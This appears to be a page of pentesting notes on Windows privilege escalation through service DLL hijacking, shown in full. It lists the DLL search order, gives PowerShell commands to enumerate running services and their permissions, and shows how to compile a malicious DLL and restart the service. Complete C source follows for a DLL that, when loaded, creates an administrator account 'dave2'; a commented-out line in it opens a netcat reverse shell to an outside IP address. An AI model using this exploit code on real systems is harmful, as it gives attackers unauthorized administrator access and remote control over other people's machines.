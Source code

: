 ```jsx
net user 
net localgroup administrators
```

### Service DLL Hijacking

```jsx
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.

//check log file to find lacked dll
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
icacls .\Documents\BetaServ.exe
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
//i686-w64-mingw32-gcc for 32bit dll
Restart-Service BetaService
net localgroup administrators
```

Add user

```jsx
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
  	    //i = system ("C:\Services\nc.exe 192.168.45.201 4444 -e powershell");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
